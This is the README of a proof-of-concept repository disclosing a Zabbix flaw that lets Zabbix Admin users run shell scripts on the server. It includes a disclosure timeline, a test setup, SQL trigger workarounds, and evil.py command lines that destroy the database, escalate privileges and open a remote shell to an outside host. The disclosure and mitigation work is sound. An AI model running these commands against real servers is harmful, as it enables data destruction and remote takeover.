 # Zbxsec-7

## About

This repository contains a proof-of-concept of a security issue in [Zabbix](https://zabbix.com).

Any user with the "Zabbix Admin" role is able to run custom shell script on the application server in the context of the application user. The impact of this will vary, depending on OS, Zabbix version and how/which users are granted the "Zabbix Admin" role, but the users will probably have full database access and access to other secrets stored on the application server.

The issue is a "feature" that gives the "Zabbix Admin" role the ability to create actions that use remote commands and custom script. This custom script is run on the application server.

Links:

* https://www.zabbix.com/documentation/current/manual/web_interface/frontend_sections/configuration/actions
* https://www.zabbix.com/documentation/current/manual/config/notifications/action/operation/remote_command

Short history:

* The issue was reported to security@zabbix.com on July 30th, 2019 (4.2 was the newest version at this point).
* It was registered as https://support.zabbix.com/browse/ZBXSEC-7 on August 23rd, 2019.
* On Desember 10th, 2020, the Zabbix team was informed that after 90 days the issue could be posted publicly.
* The registered issue has had little activity. It was closed (and resolution set as "fixed") on Jan 29th, 2021.

The issue is confirmed present in the following versions of Zabbix:

* 4.0 LTS
* 4.2
* 4.4
* 5.0 LTS

In 5.4 they've [changed the way scripts are managed](https://www.zabbix.com/documentation/current/en/manual/installation/upgrade_notes_540#central-location-for-scripts). You need to be granted access to the Administration-\>Scripts UI element. This issue is from here on only a problem if you do not fully trust users with this access. This is hopefully very unlikely.

This issue was just seen as "misconfiguration" by the Zabbix team, even though PoC is able to quite easily destroy the application in their own container images.

## Zabbix test instance

A test instance of Zabbix could be created with the "zabbix-simple" git submodule. It uses [podman](https://podman.io/getting-started/) and the [container images from zabbix](https://hub.docker.com/u/zabbix).

You should clone this repository with the `--recurse-submodules` argument or use `git submodule update --init` after a simple clone.

Follow the instructions in `./zabbix-simple/README.md`.

## Proof-of-concept

If you set up an instance with "zabbix-simple" you should have installed [pyzabbix](https://pypi.org/project/pyzabbix/), a user called "User" with the role "Zabbix Admin". The password of this user is the default password "zabbix".

Destroy database:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix destroy-database
```

Escalation:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix escalation User
```

Remote shell connecting to myhost.example.com:8000:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix remote-shell myhost.example.com 8000
```

The trigger might need a few seconds/minutes to activate.

## Workaround

The only workaround I am aware of is through database triggers that prevent you from adding custom scripts.

### Postgres

```sql
CREATE FUNCTION raise_exception() RETURNS trigger AS $$
  DECLARE
    message TEXT;
  BEGIN
    message := TG_ARGV[0];
    RAISE exception '%', message;
  END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER no_custom_script
BEFORE INSERT OR UPDATE ON opcommand
FOR EACH ROW
WHEN (NEW.type = 0)
EXECUTE FUNCTION raise_exception('No custom script');
```

### MySQL

```sql
DELIMITER //
CREATE TRIGGER no_custom_script_update
  BEFORE UPDATE ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
CREATE TRIGGER no_custom_script_insert
  BEFORE INSERT ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
DELIMITER ;
```
